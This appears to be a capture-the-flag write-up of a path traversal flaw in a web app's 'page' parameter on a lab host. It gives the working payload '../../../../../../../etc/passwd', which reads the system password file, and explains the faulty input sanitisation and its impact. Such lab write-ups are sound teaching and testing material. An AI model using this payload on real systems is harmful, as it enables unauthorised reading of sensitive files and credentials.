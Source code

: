 ```
http://{IP_ADDRESS}/?page=
```

    Testing for vulnerability:
    - First attempt: `?page=../etc/passwd` → Result: "WTF?" alert
    - Continued attempts: Added more `../` sequences to traverse higher in directory structure
    - Success: After multiple directory traversals, we found the working payload

## Successful Exploit
```
http://192.168.193.129/?page=../../../../../../../etc/passwd
```
This URL successfully retrieved the flag.

## Vulnerability Explanation
The application fails to properly sanitize user input in the `page` parameter. By using `../` sequences (which mean "go up one directory" in filesystem navigation), an attacker can escape the intended directory and access sensitive system files.

In this case, we accessed `/etc/passwd`, a critical system file that contains user account information on Unix-based systems. The need for multiple `../` sequences indicates the application attempts some protection but fails to implement it correctly.

## Security Impact
This vulnerability could allow attackers to:
- Read sensitive configuration files
- Access credentials and other confidential information
- Potentially gain further system access
